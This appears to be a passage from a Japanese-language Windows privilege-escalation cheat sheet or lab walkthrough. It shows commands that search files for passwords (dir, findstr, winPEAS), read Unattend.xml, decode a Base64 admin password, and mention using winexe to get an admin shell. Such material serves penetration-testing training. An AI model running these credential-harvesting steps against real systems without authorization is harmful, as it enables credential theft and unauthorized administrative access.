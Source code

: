 管理者の中には、システム上にパスワード付きの設定ファイルを残す人もいます。 Unattend.xmlはその一例で、Windowsシステムのセットアップをほぼ自動化することができるファイルです。   
### Searching for Configuration Files
カレントディレクトリにある、ファイル名に "pass "を含むファイル、または末尾が".config "のファイルを再帰的に検索します。
```
> dir /s *pass* == *.config
```
カレントディレクトリにある、"password "という単語を含み、かつ.xml, .ini, .txtのいずれかで終わるファイルを再帰的に検索します。
```
> findstr /si password *.xml *.ini *.txt
```
# Privilege Escalation
1. winPEASを使用して、認証情報を含む可能性のある一般的なファイルを検索します。
```
> .\winPEASany.exe quiet cmd searchfast filesinfo
```
2. Unattend.xml ファイルが見つかりました。内容を表示します。
```
> type C:\Windows\Panther\Unattend.xml
```
3. admin ユーザーのパスワードが見つかりました。パスワードはBase64でエンコードされています： cGFzc3dvcmQxMjM=
4. Kaliでは、これを簡単に解読することができます。
```
# echo "cGFzc3dvcmQxMjM=" | base64 -d
```
5. もう一度言いますが、winexe を使って、admin ユーザとしてシェルを起動するだけです。